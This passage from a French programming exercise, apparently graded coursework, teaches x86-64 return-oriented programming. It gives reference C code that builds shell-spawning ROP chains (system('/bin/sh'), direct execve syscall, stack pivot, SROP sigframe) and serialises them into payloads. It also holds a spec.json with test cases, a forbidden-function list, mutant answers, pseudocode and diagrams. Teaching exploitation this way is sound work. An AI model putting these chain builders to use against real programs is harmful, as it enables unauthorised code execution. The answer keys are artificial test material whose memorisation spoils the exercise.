    ropchain_push_value(chain, 0, "NULL (envp)");

    /* rax = 59 (numéro syscall execve) */
    ropchain_push_addr(chain, pop_rax->address, "pop rax; ret");
    ropchain_push_value(chain, 59, "59 (execve)");

    /* syscall */
    ropchain_push_addr(chain, syscall_ret->address, "syscall; ret");

    return chain;
}

ROPChain *rop_build_stack_pivot(const GadgetDB *db, uint64_t new_stack)
{
    if (db == NULL)
        return NULL;

    /* Essayer pop rsp d'abord */
    const Gadget *pop_rsp = gadgetdb_find(db, "pop rsp; ret");
    if (pop_rsp != NULL)
    {
        ROPChain *chain = ropchain_new();
        if (chain == NULL)
            return NULL;

        ropchain_push_addr(chain, pop_rsp->address, "pop rsp; ret");
        ropchain_push_value(chain, new_stack, "new stack address");
        return chain;
    }

    /* Sinon essayer leave; ret */
    const Gadget *leave_ret = gadgetdb_find(db, "leave; ret");
    if (leave_ret != NULL)
    {
        ROPChain *chain = ropchain_new();
        if (chain == NULL)
            return NULL;

        /* Note: leave; ret nécessite que rbp pointe vers new_stack - 8 */
        ropchain_push_addr(chain, leave_ret->address, "leave; ret (rbp must be set)");
        return chain;
    }

    return NULL;
}

ROPChain *rop_build_chain(const GadgetDB *db, ROPObjective objective)
{
    switch (objective)
    {
        case SYSTEM_BINSH:
            return rop_build_system_binsh(db);
        case EXECVE_SYSCALL:
            return rop_build_execve_syscall(db);
        case STACK_PIVOT:
            return rop_build_stack_pivot(db, 0);
        default:
            return NULL;
    }
}

/* === PAYLOAD GENERATION === */

uint8_t *ropchain_generate_payload(const ROPChain *chain, size_t *out_size)
{
    if (chain == NULL || out_size == NULL)
        return NULL;

    uint8_t *payload = malloc(chain->total_size);
    if (payload == NULL)
        return NULL;

    size_t offset = 0;
    for (size_t i = 0; i < chain->count; i++)
    {
        uint64_t val = chain->elements[i].value;
        /* Little-endian */
        memcpy(payload + offset, &val, 8);
        offset += 8;
    }

    *out_size = chain->total_size;
    return payload;
}

void ropchain_dump(const ROPChain *chain)
{
    if (chain == NULL)
        return;

    printf("=== ROP Chain (%zu elements, %zu bytes) ===\n",
           chain->count, chain->total_size);

    size_t rsp = 0;
    for (size_t i = 0; i < chain->count; i++)
    {
        const ROPElement *e = &chain->elements[i];
        printf("[RSP+0x%04zx] 0x%016lx  ; %s\n",
               rsp, e->value, e->comment ? e->comment : "");
        rsp += 8;
    }
}

/* === SECURITY === */

int security_check_exploitable(const SecurityConfig *config,
                               int has_info_leak,
                               int has_canary_leak)
{
    if (config == NULL)
        return 0;

    /* Si ASLR activé, on a besoin d'une fuite d'info */
    if (config->aslr_enabled && !has_info_leak)
        return 0;

    /* Si canary activé, on a besoin de le leaker */
    if (config->canary_enabled && !has_canary_leak)
        return 0;

    /* NX n'empêche pas ROP */
    /* PIE est couvert par ASLR */
    /* RELRO partiel n'empêche pas ROP (juste GOT overwrite) */

    return 1;
}

uint64_t calculate_base_from_leak(uint64_t leaked_addr, uint64_t known_offset)
{
    return leaked_addr - known_offset;
}
```

### 4.4 Solutions alternatives acceptées

```c
/* Alternative 1: Utilisation d'un tableau statique au lieu de malloc */
/* Accepté car fonctionnellement équivalent pour les tests */

#define MAX_GADGETS 32
#define MAX_CHAIN_ELEMENTS 64

typedef struct {
    Gadget gadgets[MAX_GADGETS];
    size_t count;
    uint64_t libc_base;
    /* ... */
} GadgetDB_Static;

/* Alternative 2: Recherche de gadgets par sous-chaîne */
const Gadget *gadgetdb_find_contains(const GadgetDB *db, const char *substr)
{
    if (db == NULL || substr == NULL)
        return NULL;

    for (size_t i = 0; i < db->count; i++)
    {
        if (strstr(db->gadgets[i].instructions, substr) != NULL)
            return &db->gadgets[i];
    }
    return NULL;
}
```

### 4.5 Solutions refusées

```c
/* REFUSÉ 1: Pas de vérification NULL */
ROPChain *rop_build_system_binsh_bad(const GadgetDB *db)
{
    /* ERREUR: db peut être NULL → crash */
    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    /* ... */
}
/* Raison: Segfault si db est NULL */

/* REFUSÉ 2: Mauvais ordre dans la chaîne */
ROPChain *rop_build_system_binsh_wrong_order(const GadgetDB *db)
{
    if (db == NULL) return NULL;

    ROPChain *chain = ropchain_new();

    /* ERREUR: system AVANT pop rdi → ne fonctionne pas */
    ropchain_push_addr(chain, system_func->address, "system");
    ropchain_push_addr(chain, pop_rdi->address, "pop rdi; ret");
    ropchain_push_value(chain, binsh->address, "/bin/sh");

    return chain;
}
/* Raison: L'ordre des gadgets est critique, system sera appelé sans argument */

/* REFUSÉ 3: Oubli de libérer la mémoire */
void gadgetdb_free_bad(GadgetDB *db)
{
    free(db);  /* ERREUR: db->gadgets n'est pas libéré → memory leak */
}
/* Raison: Fuite mémoire du tableau de gadgets */

/* REFUSÉ 4: Big-endian au lieu de little-endian */
uint8_t *ropchain_generate_payload_bad(const ROPChain *chain, size_t *out_size)
{
    /* ... */
    for (size_t i = 0; i < chain->count; i++)
    {
        uint64_t val = chain->elements[i].value;
        /* ERREUR: Big-endian sur architecture little-endian */
        for (int j = 7; j >= 0; j--)
            payload[offset++] = (val >> (j * 8)) & 0xFF;
    }
    /* ... */
}
/* Raison: x86-64 est little-endian, les adresses seront incorrectes */
```

### 4.6 Solution bonus de référence (SROP)

```c
/* Solution bonus: SROP implementation */

#include <signal.h>

/* Structure simplifiée du sigframe x86-64 */
typedef struct __attribute__((packed)) {
    uint64_t uc_flags;
    uint64_t uc_link;
    uint64_t ss_sp;
    uint64_t ss_flags;
    uint64_t ss_size;
    uint64_t r8, r9, r10, r11, r12, r13, r14, r15;
    uint64_t rdi, rsi, rbp, rbx, rdx, rax, rcx, rsp, rip;
    uint64_t eflags;
    uint16_t cs, gs, fs, __pad0;
    uint64_t err, trapno, oldmask, cr2;
} SigFrame;

SigFrame *srop_create_execve_frame(uint64_t binsh_addr, uint64_t syscall_addr)
{
    SigFrame *frame = calloc(1, sizeof(SigFrame));
    if (frame == NULL)
        return NULL;

    /* Configurer les registres pour execve("/bin/sh", NULL, NULL) */
    frame->rax = 59;            /* syscall number for execve */
    frame->rdi = binsh_addr;    /* first argument: "/bin/sh" */
    frame->rsi = 0;             /* second argument: NULL (argv) */
    frame->rdx = 0;             /* third argument: NULL (envp) */

    /* RIP pointe vers syscall; ret */
    frame->rip = syscall_addr;

    /* RSP doit pointer quelque part de valide */
    frame->rsp = syscall_addr + 0x1000;  /* Arbitrary valid address */

    /* Segments user-mode */
    frame->cs = 0x33;
    frame->ss_flags = 0;

    return frame;
}

ROPChain *rop_build_srop_execve(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    const Gadget *pop_rax = gadgetdb_find(db, "pop rax; ret");
    const Gadget *syscall_ret = gadgetdb_find(db, "syscall; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");

    if (pop_rax == NULL || syscall_ret == NULL || binsh == NULL)
        return NULL;

    ROPChain *chain = ropchain_new();
    if (chain == NULL)
        return NULL;

    /* Étape 1: rax = 15 (sigreturn syscall) */
    ropchain_push_addr(chain, pop_rax->address, "pop rax; ret");
    ropchain_push_value(chain, 15, "15 (sigreturn)");

    /* Étape 2: syscall - déclenche sigreturn */
    ropchain_push_addr(chain, syscall_ret->address, "syscall; ret");

    /* Étape 3: Le sigframe sera placé juste après */
    /* Note: Dans un vrai exploit, le sigframe suivrait ici */

    return chain;
}

/* Génère un payload complet avec sigframe */
uint8_t *srop_generate_full_payload(const GadgetDB *db, size_t *out_size)
{
    const Gadget *pop_rax = gadgetdb_find(db, "pop rax; ret");
    const Gadget *syscall_ret = gadgetdb_find(db, "syscall; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");

    if (pop_rax == NULL || syscall_ret == NULL || binsh == NULL)
        return NULL;

    /* Calculer la taille totale */
    size_t rop_size = 24;  /* 3 qwords pour le setup */
    size_t frame_size = sizeof(SigFrame);
    size_t total = rop_size + frame_size;

    uint8_t *payload = malloc(total);
    if (payload == NULL)
        return NULL;

    size_t offset = 0;

    /* ROP setup */
    uint64_t vals[3] = {
        pop_rax->address,
        15,  /* sigreturn */
        syscall_ret->address
    };

    for (int i = 0; i < 3; i++)
    {
        memcpy(payload + offset, &vals[i], 8);
        offset += 8;
    }

    /* Sigframe */
    SigFrame *frame = srop_create_execve_frame(binsh->address, syscall_ret->address);
    if (frame == NULL)
    {
        free(payload);
        return NULL;
    }

    memcpy(payload + offset, frame, sizeof(SigFrame));
    free(frame);

    *out_size = total;
    return payload;
}

/* Recherche automatique optimisée avec index */
typedef struct {
    const char *pattern;
    size_t      gadget_index;
} GadgetIndex;

typedef struct {
    GadgetIndex *entries;
    size_t       count;
    size_t       capacity;
} GadgetSearchIndex;

GadgetSearchIndex *create_search_index(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    GadgetSearchIndex *idx = malloc(sizeof(GadgetSearchIndex));
    if (idx == NULL)
        return NULL;

    idx->capacity = db->count;
    idx->entries = malloc(sizeof(GadgetIndex) * idx->capacity);
    if (idx->entries == NULL)
    {
        free(idx);
        return NULL;
    }

    /* Créer l'index (trié pour recherche binaire) */
    for (size_t i = 0; i < db->count; i++)
    {
        idx->entries[i].pattern = db->gadgets[i].instructions;
        idx->entries[i].gadget_index = i;
    }
    idx->count = db->count;

    /* Tri par pattern (bubble sort simple pour l'exemple) */
    for (size_t i = 0; i < idx->count - 1; i++)
    {
        for (size_t j = 0; j < idx->count - i - 1; j++)
        {
            if (strcmp(idx->entries[j].pattern, idx->entries[j+1].pattern) > 0)
            {
                GadgetIndex tmp = idx->entries[j];
                idx->entries[j] = idx->entries[j+1];
                idx->entries[j+1] = tmp;
            }
        }
    }

    return idx;
}

/* Recherche binaire O(log n) */
const Gadget *gadgetdb_find_fast(const GadgetDB *db, const GadgetSearchIndex *idx,
                                  const char *pattern)
{
    if (db == NULL || idx == NULL || pattern == NULL)
        return NULL;

    size_t left = 0;
    size_t right = idx->count;

    while (left < right)
    {
        size_t mid = left + (right - left) / 2;
        int cmp = strcmp(idx->entries[mid].pattern, pattern);

        if (cmp == 0)
            return &db->gadgets[idx->entries[mid].gadget_index];
        else if (cmp < 0)
            left = mid + 1;
        else
            right = mid;
    }

    return NULL;
}

/* Vérification des bad chars */
int ropchain_check_bad_chars(const ROPChain *chain,
                             const uint8_t *bad_chars, size_t bad_count)
{
    if (chain == NULL)
        return -1;
    if (bad_chars == NULL || bad_count == 0)
        return 0;  /* Pas de bad chars = OK */

    for (size_t i = 0; i < chain->count; i++)
    {
        uint64_t val = chain->elements[i].value;

        for (int byte = 0; byte < 8; byte++)
        {
            uint8_t b = (val >> (byte * 8)) & 0xFF;

            for (size_t j = 0; j < bad_count; j++)
            {
                if (b == bad_chars[j])
                    return 1;  /* Bad char trouvé */
            }
        }
    }

    return 0;  /* Pas de bad chars */
}
```

### 4.7 Solutions alternatives bonus

```c
/* Alternative bonus: Utilisation de qsort pour le tri de l'index */
static int compare_gadget_index(const void *a, const void *b)
{
    const GadgetIndex *ga = (const GadgetIndex *)a;
    const GadgetIndex *gb = (const GadgetIndex *)b;
    return strcmp(ga->pattern, gb->pattern);
}

GadgetSearchIndex *create_search_index_qsort(const GadgetDB *db)
{
    /* ... allocation ... */
    qsort(idx->entries, idx->count, sizeof(GadgetIndex), compare_gadget_index);
    return idx;
}
```

### 4.8 Solutions refusées bonus

```c
/* REFUSÉ: Sigframe avec mauvais numéro de syscall */
SigFrame *srop_create_execve_frame_bad(uint64_t binsh_addr, uint64_t syscall_addr)
{
    SigFrame *frame = calloc(1, sizeof(SigFrame));

    frame->rax = 11;  /* ERREUR: 11 = execve sur 32-bit, 59 sur 64-bit */
    /* ... */

    return frame;
}
/* Raison: Le numéro de syscall execve est 59 sur x86-64, pas 11 */
```

### 4.9 spec.json

```json
{
  "name": "rop_chain_builder",
  "language": "c",
  "type": "complet",
  "tier": 3,
  "tier_info": "Synthèse (ROP, SROP, défenses, calculs d'offset)",
  "tags": ["security", "exploitation", "rop", "phase2", "advanced"],
  "passing_score": 70,

  "function": {
    "name": "rop_build_system_binsh",
    "prototype": "ROPChain *rop_build_system_binsh(const GadgetDB *db)",
    "return_type": "ROPChain *",
    "parameters": [
      {"name": "db", "type": "const GadgetDB *"}
    ]
  },

  "driver": {
    "reference": "ROPChain *ref_rop_build_system_binsh(const GadgetDB *db) { if (db == NULL) return NULL; const Gadget *pop_rdi = gadgetdb_find(db, \"pop rdi; ret\"); const Gadget *binsh = gadgetdb_find(db, \"/bin/sh\"); const Gadget *sys = gadgetdb_find(db, \"system\"); if (!pop_rdi || !binsh || !sys) return NULL; ROPChain *c = ropchain_new(); if (!c) return NULL; ropchain_push_addr(c, pop_rdi->address, \"pop rdi; ret\"); ropchain_push_value(c, binsh->address, \"/bin/sh\"); ropchain_push_addr(c, sys->address, \"system\"); return c; }",

    "edge_cases": [
      {
        "name": "null_db",
        "args": [null],
        "expected": null,
        "is_trap": true,
        "trap_explanation": "db est NULL, doit retourner NULL sans crash"
      },
      {
        "name": "valid_libc_base",
        "args": ["db_with_base_0x7ffff7a00000"],
        "expected": "chain_with_3_elements",
        "is_trap": false
      },
      {
        "name": "chain_size",
        "args": ["valid_db"],
        "expected": "total_size_24",
        "is_trap": false
      },
      {
        "name": "correct_order",
        "args": ["valid_db"],
        "expected": "pop_rdi_then_binsh_then_system",
        "is_trap": true,
        "trap_explanation": "L'ordre des gadgets est critique pour ROP"
      },
      {
        "name": "missing_gadget",
        "args": ["db_without_pop_rdi"],
        "expected": null,
        "is_trap": true,
        "trap_explanation": "Si un gadget requis manque, retourner NULL"
      }
    ],

    "fuzzing": {
      "enabled": true,
      "iterations": 500,
      "generators": [
        {
          "type": "int",
          "param_index": 0,
          "params": {
            "min": 0,
            "max": 18446744073709551615,
            "description": "libc_base address"
          }
        }
      ]
    }
  },

  "norm": {
    "allowed_functions": ["malloc", "free", "realloc", "memcpy", "memset", "memmove", "printf", "snprintf", "strcmp", "strstr", "strlen"],
    "forbidden_functions": ["system", "execve", "execl", "execv", "execle", "execvp", "execlp", "popen", "mprotect"],
    "check_security": true,
    "check_memory": true,
    "blocking": true
  },

  "complexity": {
    "time": "O(n)",
    "space": "O(n)",
    "explanation": "n = nombre de gadgets dans la chaîne"
  }
}
```

### 4.10 Solutions Mutantes (5 minimum)

```c
/* =================================================================== */
/* MUTANT A (Boundary) : Off-by-one dans le calcul d'offset            */
/* =================================================================== */
ROPChain *mutant_a_rop_build_system_binsh(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");
    const Gadget *system_func = gadgetdb_find(db, "system");

    if (pop_rdi == NULL || binsh == NULL || system_func == NULL)
        return NULL;

    ROPChain *chain = ropchain_new();
    if (chain == NULL)
        return NULL;

    /* ERREUR: +1 sur l'adresse du gadget → décalage d'un byte */
    ropchain_push_addr(chain, pop_rdi->address + 1, "pop rdi; ret");
    ropchain_push_value(chain, binsh->address, "/bin/sh");
    ropchain_push_addr(chain, system_func->address, "system");

    return chain;
}
/* Pourquoi c'est faux: L'adresse pop_rdi->address + 1 ne pointe plus vers
   "pop rdi; ret" mais vers le milieu de l'instruction, causant un crash
   ou un comportement imprévisible. Les gadgets doivent être à l'adresse EXACTE. */
/* Ce qui était pensé: "Je dois peut-être ajuster l'adresse" - NON ! */


/* =================================================================== */
/* MUTANT B (Safety) : Pas de vérification des gadgets trouvés         */
/* =================================================================== */
ROPChain *mutant_b_rop_build_system_binsh(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    /* ERREUR: Pas de vérification si les gadgets existent */
    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");
    const Gadget *system_func = gadgetdb_find(db, "system");

    /* Ces pointeurs peuvent être NULL ! */

    ROPChain *chain = ropchain_new();
    if (chain == NULL)
        return NULL;

    /* CRASH si pop_rdi est NULL */
    ropchain_push_addr(chain, pop_rdi->address, "pop rdi; ret");
    ropchain_push_value(chain, binsh->address, "/bin/sh");
    ropchain_push_addr(chain, system_func->address, "system");

    return chain;
}
/* Pourquoi c'est faux: Si gadgetdb_find retourne NULL (gadget non trouvé),
   accéder à pop_rdi->address cause un segfault. */
/* Ce qui était pensé: "Les gadgets existent toujours" - FAUX avec une vraie libc! */


/* =================================================================== */
/* MUTANT C (Resource) : Memory leak - chain non libérée en cas d'erreur */
/* =================================================================== */
ROPChain *mutant_c_rop_build_system_binsh(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");

    ROPChain *chain = ropchain_new();  /* Allocation */
    if (chain == NULL)
        return NULL;

    /* ERREUR: Si les gadgets suivants manquent, chain est leakée */
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");
    if (binsh == NULL)
        return NULL;  /* LEAK: chain n'est pas libérée ! */

    const Gadget *system_func = gadgetdb_find(db, "system");
    if (system_func == NULL)
        return NULL;  /* LEAK: chain n'est pas libérée ! */

    if (pop_rdi == NULL)
        return NULL;  /* LEAK: chain n'est pas libérée ! */

    ropchain_push_addr(chain, pop_rdi->address, "pop rdi; ret");
    ropchain_push_value(chain, binsh->address, "/bin/sh");
    ropchain_push_addr(chain, system_func->address, "system");

    return chain;
}
/* Pourquoi c'est faux: La chaîne est allouée puis abandonnée si un gadget
   manque → fuite mémoire. Doit appeler ropchain_free(chain) avant return NULL. */
/* Ce qui était pensé: "Je retourne NULL donc c'est clean" - NON, fuite mémoire! */


/* =================================================================== */
/* MUTANT D (Logic) : Mauvais ordre des éléments dans la chaîne        */
/* =================================================================== */
ROPChain *mutant_d_rop_build_system_binsh(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");
    const Gadget *system_func = gadgetdb_find(db, "system");

    if (pop_rdi == NULL || binsh == NULL || system_func == NULL)
        return NULL;

    ROPChain *chain = ropchain_new();
    if (chain == NULL)
        return NULL;

    /* ERREUR: Ordre incorrect !
       Correct: pop_rdi → binsh → system
       Ici:     binsh → pop_rdi → system   */
    ropchain_push_value(chain, binsh->address, "/bin/sh");  /* WRONG FIRST */
    ropchain_push_addr(chain, pop_rdi->address, "pop rdi; ret");
    ropchain_push_addr(chain, system_func->address, "system");

    return chain;
}
/* Pourquoi c'est faux: Le flux ROP est: ret dépile → exécute → ret dépile...
   Si binsh->address est premier, le CPU va essayer de l'EXÉCUTER comme code,
   pas de le charger dans RDI. L'ordre est CRITIQUE. */
/* Ce qui était pensé: "L'ordre n'a pas d'importance" - FATAL pour ROP! */


/* =================================================================== */
/* MUTANT E (Return) : Retourne toujours la même chaîne pré-calculée   */
/* =================================================================== */
static ROPChain *cached_chain = NULL;

ROPChain *mutant_e_rop_build_system_binsh(const GadgetDB *db)
{
    /* ERREUR: Ignore db et retourne toujours la même chaîne cachée */
    if (cached_chain != NULL)
        return cached_chain;

    if (db == NULL)
        return NULL;

    /* Calcule une fois avec des adresses HARDCODÉES */
    cached_chain = ropchain_new();
    if (cached_chain == NULL)
        return NULL;

    /* ERREUR: Adresses hardcodées, ignorent libc_base ! */
    ropchain_push_addr(cached_chain, 0x7ffff7a21102, "pop rdi; ret");
    ropchain_push_value(cached_chain, 0x7ffff7b8cd57, "/bin/sh");
    ropchain_push_addr(cached_chain, 0x7ffff7a45390, "system");

    return cached_chain;
}
/* Pourquoi c'est faux: Avec ASLR, libc_base change à CHAQUE exécution.
   Les adresses hardcodées ne fonctionneront que par chance (1/2^28).
   De plus, retourner la même chaîne = double-free si appelé 2x puis free. */
/* Ce qui était pensé: "Les adresses sont toujours les mêmes" - ASLR dit non! */


/* =================================================================== */
/* MUTANT F (Endianness) : Utilise big-endian au lieu de little-endian */
/* =================================================================== */
uint8_t *mutant_f_ropchain_generate_payload(const ROPChain *chain, size_t *out_size)
{
    if (chain == NULL || out_size == NULL)
        return NULL;

    uint8_t *payload = malloc(chain->total_size);
    if (payload == NULL)
        return NULL;

    size_t offset = 0;
    for (size_t i = 0; i < chain->count; i++)
    {
        uint64_t val = chain->elements[i].value;

        /* ERREUR: Big-endian au lieu de little-endian ! */
        for (int j = 7; j >= 0; j--)
        {
            payload[offset++] = (val >> (j * 8)) & 0xFF;
        }
    }

    *out_size = chain->total_size;
    return payload;
}
/* Pourquoi c'est faux: x86-64 est little-endian. L'adresse 0x7ffff7a21102
   doit être écrite comme: 02 11 a2 f7 ff 7f 00 00 (LSB first).
   En big-endian, ce serait: 00 00 7f ff f7 a2 11 02 → adresse complètement différente! */
/* Ce qui était pensé: "L'endianness n'a pas d'importance" - x86 est LITTLE-endian! */
```

---

## 🧠 SECTION 5 : COMPRENDRE

### 5.1 Ce que cet exercice enseigne

1. **Pourquoi ROP existe** : Contourner DEP/NX qui empêche l'exécution de code sur la pile
2. **Comment fonctionne ROP** : Enchaîner des fragments de code (gadgets) via `ret`
3. **Architecture x86-64** : Calling conventions, registres, pile
4. **Défenses modernes** : ASLR, canaries, CFI et comment les contourner
5. **Pensée offensive** : Réutiliser l'existant au lieu de créer du nouveau

### 5.2 LDA — Traduction Littérale (MAJUSCULES)

```
FONCTION rop_build_system_binsh QUI RETOURNE UN POINTEUR VERS UNE STRUCTURE ROPChain ET PREND EN PARAMÈTRE db QUI EST UN POINTEUR VERS UNE STRUCTURE GadgetDB CONSTANTE
DÉBUT FONCTION
    SI db EST ÉGAL À NUL ALORS
        RETOURNER NUL
    FIN SI

    DÉCLARER pop_rdi COMME POINTEUR VERS UNE STRUCTURE Gadget CONSTANTE
    AFFECTER LE RÉSULTAT DE gadgetdb_find AVEC db ET "pop rdi; ret" À pop_rdi

    DÉCLARER binsh COMME POINTEUR VERS UNE STRUCTURE Gadget CONSTANTE
    AFFECTER LE RÉSULTAT DE gadgetdb_find AVEC db ET "/bin/sh" À binsh

    DÉCLARER system_func COMME POINTEUR VERS UNE STRUCTURE Gadget CONSTANTE
    AFFECTER LE RÉSULTAT DE gadgetdb_find AVEC db ET "system" À system_func

    SI pop_rdi EST ÉGAL À NUL OU binsh EST ÉGAL À NUL OU system_func EST ÉGAL À NUL ALORS
        RETOURNER NUL
    FIN SI

    DÉCLARER chain COMME POINTEUR VERS UNE STRUCTURE ROPChain
    AFFECTER LE RÉSULTAT DE ropchain_new À chain

    SI chain EST ÉGAL À NUL ALORS
        RETOURNER NUL
    FIN SI

    APPELER ropchain_push_addr AVEC chain ET L'ADRESSE DE pop_rdi ET "pop rdi; ret"
    APPELER ropchain_push_value AVEC chain ET L'ADRESSE DE binsh ET "/bin/sh"
    APPELER ropchain_push_addr AVEC chain ET L'ADRESSE DE system_func ET "system"

    RETOURNER chain
FIN FONCTION
```

### SECTION 5.2.2 : Style Académique Français

```
ALGORITHME : Construire_Chaine_ROP_System_Binsh
ENTRÉE : db (base de données de gadgets)
SORTIE : chaîne ROP ou NUL si impossible

DÉBUT
    SI db = NUL ALORS
        RETOURNER NUL
    FIN SI

    gadget_pop_rdi ← RECHERCHER("pop rdi; ret", db)
    gadget_binsh ← RECHERCHER("/bin/sh", db)
    gadget_system ← RECHERCHER("system", db)

    SI gadget_pop_rdi = NUL OU gadget_binsh = NUL OU gadget_system = NUL ALORS
        RETOURNER NUL
    FIN SI

    chaine ← NOUVELLE_CHAINE()

    AJOUTER_ADRESSE(chaine, gadget_pop_rdi.adresse)
    AJOUTER_VALEUR(chaine, gadget_binsh.adresse)
    AJOUTER_ADRESSE(chaine, gadget_system.adresse)

    RETOURNER chaine
FIN
```

### SECTION 5.2.2.1 : Logic Flow (Structured English)

```
ALGORITHM: Build ROP Chain for system("/bin/sh")
---
1. GUARD: If gadget database is NULL
   |-- RETURN NULL immediately

2. SEARCH for required gadgets:
   a. Find "pop rdi; ret" gadget
   b. Find "/bin/sh" string address
   c. Find "system" function address

3. GUARD: If ANY gadget is missing
   |-- RETURN NULL (cannot build chain)

4. CREATE new empty ROP chain

5. GUARD: If allocation failed
   |-- RETURN NULL

6. BUILD the chain in order:
   a. PUSH address of "pop rdi; ret"
      (will load next value into RDI register)
   b. PUSH address of "/bin/sh"
      (will be popped into RDI)
   c. PUSH address of "system"
      (will be called with RDI = "/bin/sh")

7. RETURN the completed chain
```

### SECTION 5.2.3 : Représentation Algorithmique (Guard Logic)

```
FONCTION : rop_build_system_binsh(db)
---
INIT result = NULL

1. VÉRIFIER si db est invalide :
   |
   |-- RETOURNER NULL immédiatement

2. RECHERCHE DES GADGETS :
   |
   |-- pop_rdi = CHERCHER "pop rdi; ret"
   |-- binsh = CHERCHER "/bin/sh"
   |-- system = CHERCHER "system"

3. VÉRIFIER si un gadget manque :
   |
   |-- SI pop_rdi = NULL OU binsh = NULL OU system = NULL :
   |     RETOURNER NULL (construction impossible)

4. ALLOCATION :
   |
   |-- chain = NOUVELLE CHAÎNE
   |-- SI chain = NULL :
   |     RETOURNER NULL (mémoire insuffisante)

5. CONSTRUCTION :
   |
   |-- EMPILER adresse(pop_rdi)   ; RSP+0x00
   |-- EMPILER adresse(binsh)     ; RSP+0x08
   |-- EMPILER adresse(system)    ; RSP+0x10

6. RETOURNER chain
```

### SECTION 5.2.3.1 : Diagramme Mermaid



### 5.3 Visualisation ASCII

```
                    AVANT OVERFLOW                      APRÈS OVERFLOW (ROP)
                    ==============                      ==================

Stack (haute addr)                           Stack (haute addr)
┌────────────────────┐                       ┌────────────────────┐
│   ...              │                       │   ...              │
├────────────────────┤                       ├────────────────────┤
│ Saved RBP          │                       │ 0x4141414141414141 │ ← Écrasé
├────────────────────┤                       ├────────────────────┤
│ Return Address     │ ← Cible              │ @ pop rdi; ret     │ ← Gadget 1
├────────────────────┤                       ├────────────────────┤
│                    │                       │ @ "/bin/sh"        │ ← Arg pour RDI
│                    │                       ├────────────────────┤
│   Buffer[64]       │                       │ @ system           │ ← Fonction cible
│                    │                       ├────────────────────┤
│                    │                       │ "AAAAAAAAAAAAA...  │
└────────────────────┘                       └────────────────────┘
Stack (basse addr)                           Stack (basse addr)


                         EXÉCUTION DE LA CHAÎNE ROP
                         ==========================

Étape 1: ret initial (fonction vulnérable retourne)
┌──────────────────────────────────────────────────────────────────┐
│  RSP → @ pop rdi; ret                                            │
│        @ "/bin/sh"                                               │
│        @ system                                                  │
│                                                                  │
│  CPU: RIP = @ pop rdi; ret                                       │
│       RSP += 8                                                   │
└──────────────────────────────────────────────────────────────────┘

Étape 2: pop rdi (charge "/bin/sh" dans RDI)
┌──────────────────────────────────────────────────────────────────┐
│        @ pop rdi; ret  (déjà exécuté)                            │
│  RSP → @ "/bin/sh"                                               │
│        @ system                                                  │
│                                                                  │
│  CPU: RDI = @ "/bin/sh"                                          │
│       RSP += 8                                                   │
└──────────────────────────────────────────────────────────────────┘

Étape 3: ret (saute vers system)
┌──────────────────────────────────────────────────────────────────┐
│        @ pop rdi; ret  (déjà exécuté)                            │
│        @ "/bin/sh"     (déjà pop dans RDI)                       │
│  RSP → @ system                                                  │
│                                                                  │
│  CPU: RIP = @ system                                             │
│       RDI = @ "/bin/sh"                                          │
│       → system("/bin/sh") est appelé !                           │
└──────────────────────────────────────────────────────────────────┘

                              🎉 SHELL OBTENU ! 🎉


                    CHAÎNE EXECVE SYSCALL (plus complexe)
                    ====================================

┌────────────────────────────────────────────────────────────────────┐
│ RSP+0x00 │ @ pop rdi; ret  │ Gadget: charge arg1 dans RDI         │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x08 │ @ "/bin/sh"     │ Valeur: adresse de la string         │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x10 │ @ pop rsi; ret  │ Gadget: charge arg2 dans RSI         │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x18 │ 0x0             │ Valeur: NULL (argv)                  │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x20 │ @ pop rdx; ret  │ Gadget: charge arg3 dans RDX         │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x28 │ 0x0             │ Valeur: NULL (envp)                  │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x30 │ @ pop rax; ret  │ Gadget: charge syscall# dans RAX     │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x38 │ 0x3b (59)       │ Valeur: numéro syscall execve        │
├──────────┼─────────────────┼──────────────────────────────────────┤
│ RSP+0x40 │ @ syscall; ret  │ Gadget: déclenche le syscall         │
└──────────┴─────────────────┴──────────────────────────────────────┘

Résultat: execve("/bin/sh", NULL, NULL) via syscall direct !
```

### 5.4 Les pièges en détail

| Piège | Description | Conséquence | Solution |
|-------|-------------|-------------|----------|
| **Ordre des gadgets** | Mettre system avant pop rdi | system() appelé avec mauvais arg | Toujours: gadget → valeur → fonction |
| **Alignement pile** | RSP non aligné sur 16 bytes | Crash dans certaines fonctions libc | Ajouter un gadget `ret` pour aligner |
| **ASLR ignoré** | Adresses hardcodées | Crash 99.99% du temps | Calculer depuis une fuite |
| **Endianness** | Big-endian sur x86 | Adresses complètement fausses | Toujours little-endian |
| **Gadget manquant** | Ne pas vérifier le retour de find | NULL dereference | Vérifier chaque gadget trouvé |
| **Memory leak** | Ne pas free en cas d'erreur | Fuite mémoire | Toujours cleanup avant return |

### 5.5 Cours Complet : Return-Oriented Programming

#### 5.5.1 Contexte Historique

**L'évolution de l'exploitation mémoire :**

```
1988: Morris Worm - Premier stack buffer overflow majeur
1996: Aleph One "Smashing the Stack for Fun and Profit"
      → Injection directe de shellcode sur la pile

2000s: Introduction de DEP/NX (W^X)
       → La pile n'est plus exécutable
       → Le shellcode classique ne fonctionne plus

